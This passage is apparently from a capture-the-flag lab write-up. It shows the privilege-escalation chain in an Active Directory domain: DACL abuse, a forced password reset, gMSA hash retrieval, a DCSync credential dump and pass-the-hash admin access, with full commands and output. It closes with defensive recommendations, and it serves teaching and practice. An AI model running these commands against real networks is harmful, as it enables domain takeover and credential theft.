SMB         10.1.117.162    445    DC-STELLAR       -----           -----------     ------
SMB         10.1.117.162    445    DC-STELLAR       ADMIN$                          Remote Admin
SMB         10.1.117.162    445    DC-STELLAR       C$                              Default share
SMB         10.1.117.162    445    DC-STELLAR       IPC$            READ            Remote IPC
SMB         10.1.117.162    445    DC-STELLAR       NETLOGON        READ            Logon server share 
SMB         10.1.117.162    445    DC-STELLAR       SYSVOL          READ            Logon server share 
```



*Validating astro.researcher credentials with NetExec*

Valid, with READ on the default shares.

## Access as eng.payload

In BloodHound, `astro.researcher` holds `WriteDacl` over `eng.payload`.



*BloodHound WriteDacl: astro.researcher over eng.payload*

`WriteDacl` lets us rewrite the object's DACL, so we grant ourselves full control over it directly.

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'astro.researcher' -target 'eng.payload' 'stellarcomms.local'/'astro.researcher':'Cosmos@42'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20261010-185641.bak
[*] DACL modified successfully!
```



*dacledit writing FullControl for astro.researcher onto the eng.payload object*

We try a Targeted Kerberoast first, but the ticket does not crack. Full control includes the password reset primitive, the same one ForceChangePassword gave us earlier.

```
net rpc password 'eng.payload' '0xB1rdWasHere1337!' -U 'stellarcomms.local'/'astro.researcher'%'Cosmos@42' -S '10.1.117.162'
```

Silent, so we validate.

```
nxc smb 10.1.117.162 -u 'eng.payload' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.117.162    445    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.117.162    445    DC-STELLAR       [+] stellarcomms.local\eng.payload:0xB1rdWasHere1337! 
SMB         10.1.117.162    445    DC-STELLAR       [*] Enumerated shares
SMB         10.1.117.162    445    DC-STELLAR       Share           Permissions     Remark
SMB         10.1.117.162    445    DC-STELLAR       -----           -----------     ------
SMB         10.1.117.162    445    DC-STELLAR       ADMIN$                          Remote Admin
SMB         10.1.117.162    445    DC-STELLAR       C$                              Default share
SMB         10.1.117.162    445    DC-STELLAR       IPC$            READ            Remote IPC
SMB         10.1.117.162    445    DC-STELLAR       NETLOGON        READ            Logon server share 
SMB         10.1.117.162    445    DC-STELLAR       SYSVOL          READ            Logon server share 
```



*Validating eng.payload credentials with NetExec*

Valid, with READ on the default shares.

## Access as SATLINK-SERVICE$

In BloodHound, `eng.payload` holds `ReadGMSAPassword` over `SATLINK-SERVICE$`.



*BloodHound ReadGMSAPassword: eng.payload over SATLINK-SERVICE$*

`SATLINK-SERVICE$` is a gMSA (group Managed Service Account), whose password the domain generates and rotates on its own. Only the principals allowed to retrieve it can read that password from the account's `msDS-ManagedPassword` attribute. The [NetExec wiki](https://www.netexec.wiki/) documents `--gmsa`, which reads the attribute as `eng.payload` and derives the NT hash from it.

```
nxc ldap 10.1.117.162 -u 'eng.payload' -p '0xB1rdWasHere1337!' --gmsa
```

```
LDAP        10.1.117.162    389    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.117.162    389    DC-STELLAR       [+] stellarcomms.local\eng.payload:0xB1rdWasHere1337! 
LDAP        10.1.117.162    389    DC-STELLAR       [*] Getting GMSA Passwords
LDAP        10.1.117.162    389    DC-STELLAR       Account: SATLINK-SERVICE$     NTLM: 65d3076593d2f83ee9606253049ec372     PrincipalsAllowedToReadPassword: ['eng.payload', 'SATLINK-SERVICE$']
```



*NetExec reading the SATLINK-SERVICE$ gMSA password as eng.payload and returning its NT hash*

NetExec returns the account's NT hash and lists `eng.payload` and `SATLINK-SERVICE$` itself as the only principals allowed to read the password. NTLM authenticates with the hash itself, so we pass it directly.

## NTDS Dump

In BloodHound, `SATLINK-SERVICE$` holds `DCSync` over `stellarcomms.local`, the `GetChanges` and `GetChangesAll` pair that lets a principal replicate password data.



*BloodHound DCSync: SATLINK-SERVICE$ over stellarcomms.local*

impacket-secretsdump asks the DC to replicate every account over DRSUAPI, the same way domain controllers sync with each other, rather than reading NTDS.dit off disk. That is why replication rights on the domain are all we need.

```
impacket-secretsdump -hashes :65d3076593d2f83ee9606253049ec372 'stellarcomms.local'/'satlink-service$'@10.1.117.162
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3a97bfa75ebed92165ea2d67cd21002:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a71b2f34ef6bf1c3a1d748eeea2616ec:::
stellarcomms.local\junior.analyst:1103:aad3b435b51404eeaad3b435b51404ee:5944e69e5f2c6dcffcb218e0b638aeaa:::
stellarcomms.local\ops.controller:1104:aad3b435b51404eeaad3b435b51404ee:c5b3940d8ac6a958780d27b462595cf4:::
stellarcomms.local\astro.researcher:1105:aad3b435b51404eeaad3b435b51404ee:4ff610019b56e453b3c476cb34053a99:::
stellarcomms.local\eng.payload:1106:aad3b435b51404eeaad3b435b51404ee:c5b3940d8ac6a958780d27b462595cf4:::
DC-STELLAR$:1000:aad3b435b51404eeaad3b435b51404ee:3697eaa6ec862c87c6c75c22f7702172:::
SATLINK-SERVICE$:1108:aad3b435b51404eeaad3b435b51404ee:65d3076593d2f83ee9606253049ec372:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:bfaf1e64a09cd38cf5f61c308386793e79b354fa338079da920e25e9245de6cb
Administrator:aes128-cts-hmac-sha1-96:03971364600219dc3305f9a37c7d7388
Administrator:des-cbc-md5:f7014cc7e9abbf2a
krbtgt:aes256-cts-hmac-sha1-96:f7bb4a22571764def7d09f40c3c0049cf345b30d1ee939c38caded287969cf96
krbtgt:aes128-cts-hmac-sha1-96:c39955ef6dbc9e5df8538eeef6c84670
krbtgt:des-cbc-md5:4c16bfb6a79bbff2
stellarcomms.local\junior.analyst:aes256-cts-hmac-sha1-96:44baf95a1b4b56eeab90b2f8e20f24e706f33beb0b9c6219fcd1ef63b69c15ca
stellarcomms.local\junior.analyst:aes128-cts-hmac-sha1-96:f68f7da5afc1611a334316010f4b2145
stellarcomms.local\junior.analyst:des-cbc-md5:3d67cd266e2a9e31
stellarcomms.local\ops.controller:aes256-cts-hmac-sha1-96:6c4ec3e0be99fde9d72cc10296cc7b8b84c50b97a6c35dd9f1aa0f456f01cb2a
stellarcomms.local\ops.controller:aes128-cts-hmac-sha1-96:7dda3a6ff4fd7e093ddee12fbfab5e90
stellarcomms.local\ops.controller:des-cbc-md5:9bab79dac2926d1f
stellarcomms.local\astro.researcher:aes256-cts-hmac-sha1-96:cee970e6e9f45ffde1ee3a220d9ff7f00f6c9e8fddf2d81f9871ecbd02da3d64
stellarcomms.local\astro.researcher:aes128-cts-hmac-sha1-96:8b14ae2bddc8f12a4052376c0efc2e0b
stellarcomms.local\astro.researcher:des-cbc-md5:195b1c9b3437e3c8
stellarcomms.local\eng.payload:aes256-cts-hmac-sha1-96:8f98d1e4a29ea10f08bc5abb472e21488b65364a04f90c29df786194a05dc2fe
stellarcomms.local\eng.payload:aes128-cts-hmac-sha1-96:4fa51b8c2f6683f08582ef5d46bed600
stellarcomms.local\eng.payload:des-cbc-md5:8f454a459e5ef291
DC-STELLAR$:aes256-cts-hmac-sha1-96:bb7e77f92ec073cf77219e088ef539d7dd3dacc6cf71ec77e1212155eff0708d
DC-STELLAR$:aes128-cts-hmac-sha1-96:38d50515bf61512e47cefed108f1cfd4
DC-STELLAR$:des-cbc-md5:ba51c8aba7bae55e
SATLINK-SERVICE$:aes256-cts-hmac-sha1-96:712f76c96116c18376a1ff5ba6c807473d5bf5fb7ea320cb4a2444aa74d79ac8
SATLINK-SERVICE$:aes128-cts-hmac-sha1-96:4cf37f7f9e9bf10ac1c81ed6c519d9d3
SATLINK-SERVICE$:des-cbc-md5:54947625b6436b76
[*] Cleaning up... 
```



*impacket-secretsdump replicating every domain hash over DRSUAPI as SATLINK-SERVICE$*

secretsdump's remote registry step fails because it needs local admin, but replication does not, so every account's hash comes back. `krbtgt`'s key encrypts every TGT the domain issues, so its hash lets us forge a ticket for any account.

## Shell as Administrator (root.txt)

We take the Administrator NT hash from the dump and connect with Evil-WinRM.

```
evil-winrm -i 10.1.117.162 -u 'Administrator' -H 'd3a97bfa75ebed92165ea2d67cd21002'
```



*The Evil-WinRM session as Administrator with root.txt listed on the desktop*

`root.txt` is on the Administrator's desktop.

## Final Thoughts

The Firefox installer next to `user.txt` sent me looking for saved browser passwords. I had to look up which two files Firefox keeps them in and then find firepwd to decrypt them. Past that, the chain followed BloodHound one edge at a time.

A documented default password needs a forced change at first logon, and anonymous FTP should be off. `WriteOwner` and `WriteDacl` each gave up an account, and object-level rights like these need auditing on a schedule rather than at build time. Without a primary password, the key to Firefox's saved logins sits unprotected beside them, so password saving belongs off by policy on domain-joined hosts. A gMSA's readers should be the hosts that run the service, not users, and replication rights on the domain belong in the same audit.

— 0xB1rd
